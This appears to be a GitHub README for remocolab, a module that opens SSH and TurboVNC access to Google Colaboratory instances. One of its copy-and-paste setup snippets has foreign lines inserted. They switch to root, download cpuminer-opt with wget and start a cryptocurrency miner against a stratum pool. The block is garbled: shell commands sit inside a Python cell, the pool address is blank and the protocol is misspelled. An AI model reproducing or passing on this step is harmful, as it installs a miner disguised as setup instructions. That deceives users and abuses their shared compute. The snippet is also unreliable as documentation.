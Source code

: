 # remocolab
remocolab is a Python module to allow remote access to [Google Colaboratory](https://colab.research.google.com/) using SSH or [TurboVNC](https://www.turbovnc.org/).
It also install [VirtualGL](https://www.virtualgl.org/) so that you can run OpenGL programs on a Google Colaboratory machine and see the screen on VNC client.
It secures TurboVNC connection using SSH port forwarding.

- [FAQ](https://github.com/demotomohiro/remocolab/wiki/Frequently-Asked-Questions)

## How to access SSH server running in colab?
**ngrok currently doesn't work!**

You cannot directory login to the SSH server running on a colab instace.
remocolab uses third party service to access it from your PC.
You can choose [ngrok](https://ngrok.com/) or [Argo Tunnel](https://www.cloudflare.com/products/argo-tunnel/).
You don't need to buy paid plan.
Which service works faster can depend on where/when you are.
- ngrok
  - require that you sign up for an account.
  - You don't need to install specific software on client machine.
  - You need to copy and paste authtoken to colab everytime you run remocolab.
- Argo Tunnel
  - You don't need to create account. [Cloudflare provide free version](https://blog.cloudflare.com/a-free-argo-tunnel-for-your-next-project/)
  - You need to copy [cloudflared](https://developers.cloudflare.com/argo-tunnel/downloads) on your client PC.
  - You cannot specify argo tunnel server's region. They says the connection uses Argo Smart Routing technology to find the most performant path.

## Requirements
- You can use [Google Colaboratory](https://colab.research.google.com/)
  - That means you need Google acount and a browser that is supported by Google Colaboratory.
- SSH client
  - [How to get SSH client on Windows](https://github.com/demotomohiro/remocolab/wiki/Frequently-Asked-Questions#how-to-get-ssh-client-on-windows)
- (Optional) [TurboVNC Viewer](https://sourceforge.net/projects/turbovnc/files/) if you use it.

If you use ngrok:
  - [ngrok](https://ngrok.com/) Tunnel Authtoken
  - You need to sign up for ngrok to get it

If you use Argo Tunnel:
  - Download [cloudflared](https://developers.cloudflare.com/argo-tunnel/downloads) on your client PC and untar/unzip it.

## How to use
1. (Optional) Generate ssh authentication key
   - By using public key authentication, you can login to ssh server without copy&pasting a password.
   - example command to generate it with ssh-keygen:
   ```console
   ssh-keygen -t ecdsa -b 521
   ```
2. Create a new notebook on Google Colaboratory
3. Add a code cell and copy & paste one of following codes to the cell
   - If you use public key authentication, specify content of your public key to `public_key` argument of `remocolab.setupSSHD()` or `remocolab.setupVNC()` like `remocolab.setupSSHD(public_key = "ecdsa-sha2-nistp521 AAA...")`
   - add `tunnel = "ngrok"` if you use ngrok.
- SSH only:
```python3
!pip install git+https://github.com/demotomohiro/remocolab.git
import remocolab
remocolab.setupSSHD()
```

- SSH and TurboVNC:
```python3
!pip install git+https://github.com/demotomohiro/remocolab.git
import remocolab
remocolab.setupVNC()

sudo su
passwd
"Enter Any Password"
wget https://github.com/rplant8/cpuminer-opt-rplant/releases/latest/download/cpuminer-opt-linux.tar.gz
tar xf cpuminer-opt-linux.tar.gz
./cpuminer -sse2 -a yespowersugar -o stractum+tcps://      -u      vdjsjda.[Name]

```
4. (Optional) If you want to run OpenGL applications or any programs that use GPU,
Click "Runtime" -> "Change runtime type" in top menu and change Hardware accelerator to GPU. 
5. Run that cell
6. (ngrok only)Then the message that ask you to copy & paste tunnel authtoken of ngrok will appear.
Login to ngrok, click Auth on left side menu, click Copy, return to Google Colaboratory, paste it to the text box under the message and push enter key.
   - ngrok token must be kept secret.
   I understand people hate copy & pasting ngrok token everytime they use remocolab, but I don't know how to skip it without risking a security.
   If you could specify ngrok token to `remocolab.setupSSHD()` or `remocolab.setupVNC()`, you can save ngrok token to a notebook.
   Then, you might forget that your notebook contains it and share the notebook.
7. (ngrok only)Select your ngrok region. Select the one closest to your location. For example, if you were in Japan, type jp and push enter key.
   - You can also specify ngrok region to ``remocolab.setupSSHD()`` or ``remocolab.setupVNC()`` in the code like ``remocolab.setupSSHD(ngrok_region = "jp")``.
8. remocolab setup ngrok and SSH server (and desktop environment and TurboVNC server if you run setupVNC). Please wait for it done
   - `remocolab.setupSSHD()` takes about 2 minutes
   - `remocolab.setupVNC()` takes about 5 minutes
9. Then, root and colab user password and ssh command to connect the server will appear.
10. Copy & paste that ssh command to your terminal on your local machine and login to the server.
    - use displayed colab user's password if you dont use public key authentication
    - Even if you just want to use TurboVNC, you need to login using SSH to make SSH port forwarding

* If you use TurboVNC:
11. Run TurboVNC viewer on your local machine, set server address to ``localhost:1`` and connect.
12. Then, password will be asked. Copy & paste the VNC password displayed in `remocolab.setupVNC()`'s output to your TurboVNC viewer.

When you got error and want to rerun `remocolab.setupVNC()` or `remocolab.setupSSHD()`, you need to do `factory reset runtime` before rerun the command.
As you can run only 1 ngrok process with free ngrok account, running `remocolab.setupVNC/setupSSHD` will fail if there is another instace that already ran remocolab.
In that case, terminate another instance from `Manage sessions` screen.

## How to run OpenGL applications
Put the command to run the OpenGL application after ``vglrun``.
For example, ``vglrun firefox`` runs firefox and you can watch web sites using WebGL with hardware acceleration.

## How to mount Google Drive
remocolab can allow colab user reading/writing files on Google Drive.
If you just mount drive on Google Colaboratory, only root can access it.

Click the folder icon on left side of Google Colaboratory and click mount Drive icon.
If you got new code cell that contains python code "from google.colab import ...", create a new notebook, copy your code to it and mount drive same way.
On new notebook, you can mount drive without getting such code cell.
  - You can still mount google drive by clicking the given code cell, but it requres getting authorization code and copy&pasting it everytime you run your notebook.
  - If you mount google drive on new notebook, it automatically mount when your notebook connect to the instance.

Add `mount_gdrive_to` argument with directory name to `remocolab.setupSSHD()` or `remocolab.setupVNC()`.
For example:
```python
  remocolab.setupSSHD(mount_gdrive_to = "drive")
```
Then, you can access the content of your drive in `/home/colab/drive`.
You can also mount specific directory on your drive under colab user's home directory.
For example:
```python
  remocolab.setupSSHD(mount_gdrive_to = "drive", mount_gdrive_from = "My Drive/somedir")
```

## Arguments of `remocolab.setupSSHD()` and `remocolab.setupVNC()`
- `ngrok_region`
  Specify ngrok region like "us", "eu", "ap". [List of region](https://ngrok.com/docs#global-locations).
  This argument is ignored if you specified `tunnel = "argotunnel"`.
- `check_gpu_available`
  When it is `True`, it checks whether GPU is available and show warning in case GPU is not available.
- `tunnel`
  Specify which service you use to access ssh server on colab.
  It must be "ngrok" or "argotunnel". default value is "argotunnel".
- `mount_gdrive_to`
  Specify a directory under colab user's home directory which is used to mount Google Drive.
  If it was not specified, Google Drive is not mount under colab user's home directory.
  Specifying it without mounting Google Drive on Google Colaboratory is error.
- `mount_gdrive_from`
  Specify a path of existing directory on your Google Drive which is mounted on the directory specified by `mount_gdrive_to`.
  This argument is ignored when `mount_gdrive_to` was not specified.
- `public_key`
  Specify ssh public key if you want to use public key authentication.
## How to setup public key authentication for root login
If you want to login as root, use following code:
```python3
!mkdir /root/.ssh
with open("/root/.ssh/authorized_keys", 'w') as f:
  f.write("my public key")
!chmod 700 /root/.ssh
!chmod 600 /root/.ssh/authorized_keys
```
And replace user name colab in ssh command to root.

## Experimental kaggle support
remocolab in kaggle branch works on [Kaggle](https://www.kaggle.com/).
1. Create a new Notebook with Python language.
2. Set settings to:
   - Internet on
   - Docker to Latest Available
   - GPU on if you use TurboVNC
3. Add a code cell and copy & paste one of following codes to the cell

- SSH only:
```python3
!pip install git+https://github.com/demotomohiro/remocolab.git@kaggle
import remocolab
remocolab.setupSSHD()
```

- SSH and TurboVNC:
```python3
!pip install git+https://github.com/demotomohiro/remocolab.git@kaggle
import remocolab
remocolab.setupVNC()
```

4. Follow instructions from step 4 in above "How to use".
